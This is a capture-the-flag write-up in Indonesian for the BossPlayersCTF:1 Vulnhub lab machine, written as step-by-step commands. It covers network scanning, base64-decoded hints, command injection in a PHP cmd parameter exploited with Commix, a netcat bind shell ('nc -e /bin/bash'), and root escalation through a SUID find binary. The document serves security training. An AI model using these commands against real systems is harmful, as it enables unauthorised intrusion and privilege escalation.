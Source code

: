 # WU_bossplayersCTF1-Vulnhub
Write Up BossPlayersCTF:1 VM Vulnhub

## Scanning Network dengan Netdiscover
**Tujuan** : Menemukan IP address dari target di jaringan lokal.  

`sudo netdiscover -r 192.168.87.0/24`

![github-small](https://github.com/bielnzar/WU_bossplayersCTF1-Vulnhub/blob/main/assets/netdiscover-2.png)

## Scanning Target dengan Nmap
**Tujuan:** Mengidentifikasi port terbuka dan layanan yang berjalan.

`sudo nmap 192.168.87.4 -A -p- -oN log-nmap.log`

![github-small](https://github.com/bielnzar/WU_bossplayersCTF1-Vulnhub/blob/main/assets/nmap.png)

## Melihat Halaman Utama HTTP
**Tujuan: **Mengeksplorasi halaman utama server HTTP.

`http://192.168.87.4/`

![github-small](https://github.com/bielnzar/WU_bossplayersCTF1-Vulnhub/blob/main/assets/http.png)

## Memeriksa robots.txt file
**Tujuan:** Mencari petunjuk tambahan.

URL : `http://192.168.87.4/robots.txt`

![github-small](https://github.com/bielnzar/WU_bossplayersCTF1-Vulnhub/blob/main/assets/robots-txt.png)

## Decode Password (Base64)
**Tujuan:** Mendekode string yang ditemukan.

`echo bG9sIHRyeSBoYXJkZXIgYnJvCg== | base64 -d`

![github-small](https://github.com/bielnzar/WU_bossplayersCTF1-Vulnhub/blob/main/assets/decode.png)


## Source Code Halaman Web

`Ctrl + U`

`WkRJNWVXRXliSFZhTW14MVkwaEtkbG96U214ak0wMTFZMGRvZDBOblBUMEsK`

![github-small](https://github.com/bielnzar/WU_bossplayersCTF1-Vulnhub/blob/main/assets/ctrl-u.png)

## Decode String Base64 Berulang
**Tujuan:** Mendekode string Base64 hingga teks asli ditemukan.

```
1. echo WkRJNWVXRXliSFZhTW14MVkwaEtkbG96U214ak0wMTFZMGRvZDBOblBUMEsK | base64 -d
2. echo WkRJNWVXRXliSFZhTW14MVkwaEtkbG96U214ak0wMTFZMGRvZDBOblBUMEsK | base64 -d | base64 -d
3. echo WkRJNWVXRXliSFZhTW14MVkwaEtkbG96U214ak0wMTFZMGRvZDBOblBUMEsK | base64 -d | base64 -d | base64 -d

```

![github-small](https://github.com/bielnzar/WU_bossplayersCTF1-Vulnhub/blob/main/assets/decode-2.png)

## PHP File Target
**Tujuan:** Mengeksplorasi file PHP yang ditemukan.

`http://192.168.87.4/workinginprogress.php`

![github-small](https://github.com/bielnzar/WU_bossplayersCTF1-Vulnhub/blob/main/assets/url-1.png)

## Testing Command Injection (Whoami URL)
**Tujuan:** Menguji kerentanan Command Injection.

`http://192.168.87.4/workinginprogress.php?cmd=whoami`

![github-small](https://github.com/bielnzar/WU_bossplayersCTF1-Vulnhub/blob/main/assets/url-2.png)

## Eksploitasi dengan Commix
**Tujuan:** Mengeksploitasi Command Injection menggunakan Commix.

`commix -u 'http://192.168.87.4/workinginprogress.php?cmd=whoami'`
```
nc -e /bin/bash -lvp 2048
```

![github-small](https://github.com/bielnzar/WU_bossplayersCTF1-Vulnhub/blob/main/assets/commix.png)

## Mendapatkan Reverse Shell dengan Netcat
**Tujuan:** Mengakses shell dari mesin target.

`nc 192.168.87.4 2048`

```
uname -a

find / -perm -4000 -type f 2>/dev/null
```

![github-small](https://github.com/bielnzar/WU_bossplayersCTF1-Vulnhub/blob/main/assets/nc.png)

## Privilege Escalation
**Tujuan:** Meningkatkan hak akses menjadi root.

```
find -exec bash -p \;
whoami
ls -al /root
cat /root/root.txt
cat /root/root.txt | base64 -d
```

![github-small](https://github.com/bielnzar/WU_bossplayersCTF1-Vulnhub/blob/main/assets/nc-2.png)

# Kesimpulan
> Pada akhir proses, berhasil mendapatkan akses root dan membaca file root.txt, yang merupakan flag dari mesin ini. Proses ini mencakup eksplorasi HTTP, eksploitasi command injection, dan privilege escalation. tools-tools seperti base64 decoding, Commix, dkk juga sangat membantu untuk bisa mengeksploitasi mesin ini